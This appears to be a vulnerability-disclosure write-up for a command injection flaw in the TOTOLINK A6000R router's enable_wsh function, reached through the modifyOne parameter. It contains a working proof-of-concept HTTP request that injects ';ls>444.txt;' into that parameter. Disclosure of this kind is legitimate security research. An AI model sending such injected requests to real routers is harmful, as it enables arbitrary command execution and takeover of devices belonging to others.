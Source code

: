 # TOTOLINK A6000R V1.0.1-B20201211.2000 Command Injection (enable_wsh)

## Product Information

- Device: TOTOlink A6000R
- Firmware Version: V1.0.1-B20201211.2000
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/202/ids/36.html

![](.//1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/admin/system.lua` file, there is a **command injection vulnerability** in the `enable_wsh` function via the `modifyOne` parameter.

![](./2.png)

![](./3.png)

![](./4.png)

Entry: `/admin/mtk/wsh_enable_submit?week=1&&desc=1&&start.min=1&&start.hour=1&&stop.min=1&&stop.hour=1&&addItem=save&&modifyOne=`

![](./5.png)



## Payload

We can trigger this vulnerability by injecting the `ls>444.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wsh_enable_submit?week=1&&desc=1&&start.min=1&&start.hour=1&&stop.min=1&&stop.hour=1&&addItem=save&&modifyOne=;ls>444.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=866791d2d6acb92c0a96268cb255aa80

```

![](./6.png)



After the injection, we can verify the result.

![](./7.png)
